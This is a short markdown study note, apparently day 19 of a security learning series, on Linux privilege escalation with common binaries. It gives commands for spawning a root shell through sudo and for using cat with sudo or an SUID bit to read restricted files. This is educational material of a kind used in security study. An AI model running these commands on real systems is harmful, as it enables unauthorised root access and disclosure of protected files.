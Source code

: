 
# ♦ Day 19
</br>
</br>

## ◙ ***Privillage Escalation with comman commands***
 </br>
 
# ♦ `Sudo` : 
   ⇨  If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
</br>
#### Command:

      sudo sudo /bin/sh

   </br>
   </br>
### # ♦ `cat` :  

   ⇨  Description: The `cat` command reads data from files and can be used to do privileged reads or disclose files outside a restricted file system. If it has the SUID bit set, it can escalate privileges.
</br>
#### Command: 

   • File Read :

    LFILE=file_to_read
    cat "$LFILE"

   • SUID :

    sudo install -m =xs $(which cat) .

    LFILE=file_to_read
    ./cat "$LFILE"

   • Sudo :

    LFILE=file_to_read
    sudo cat "$LFILE"
